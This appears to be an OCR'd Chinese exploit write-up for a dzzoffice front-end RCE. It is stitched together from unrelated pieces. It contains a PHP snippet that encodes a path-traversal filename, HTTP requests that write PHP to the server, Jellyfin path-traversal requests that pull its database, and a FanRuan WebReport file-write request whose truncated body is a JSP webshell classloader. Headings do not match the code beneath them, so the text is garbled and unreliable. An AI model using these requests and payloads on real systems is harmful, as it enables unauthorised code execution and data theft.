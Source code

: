 ```
}
}

echo base64_encode(authcode_config("disk::..././..././..././shell.php",md5('3090dfHwzmw9lsC3'),'ENCODE'));



输出的加密结果
```

### 0x02 dzzoffice 前台 RCE

**项目地址**

```
POST /core/api/wopi/index.php?access_token=1&action=contents&path=ZmM0OWp3bDgxbDE3WlhocFlCVUl4ZDFvRkNYeDRVaGtQbklJYlVSUjV2VjRzLzBwUkJ0Y051ZHl4QzVITFlvN205cENqZktDY1lyNHRQQ0pWblU= HTTP/1.1
Host: word.com
Content-Length: 18
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://word.com
Referer: http://word.com/user.php?mod=login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?php phpinfo();?>
```

**漏洞前提**

首先需要获取到 authkey 这个可以通过爆破或者其他的方式获取到具体的这个请看文章

我现在的环境的 key 为：3090dfHwzmw9lsC3

加密脚本

```
GET /Audio/anything/hls/..\data\jellyfin.db/stream.mp3/ HTTP/1.1 
GET /Videos/anything/hls/m/..\data\jellyfin.db HTTP/1.1 
GET 
/Videos/anything/hls/..\data\jellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09b 
f3d8f7 HTTP/1.1
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribAGTfHSjuoFic2Sr2BVWgOiacon00niaPpepquFVuOFjriasWugWaiaFrz7uQ/640)

构造数据包：

```
POST /WebReport/ReportServer? 
op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update .jsp HTTP/1.1 
Host: 192.168.169.138:8080 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/81.0.4044.92 Safari/537.36 
Connection: close 
Accept-Au: 0c42b2f264071be0507acea1876c74 
Content-Type: text/xml;charset=UTF-8 
Content-Length: 675 

{"__CONTENT__":"<%@page import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class U extends 
ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return 
```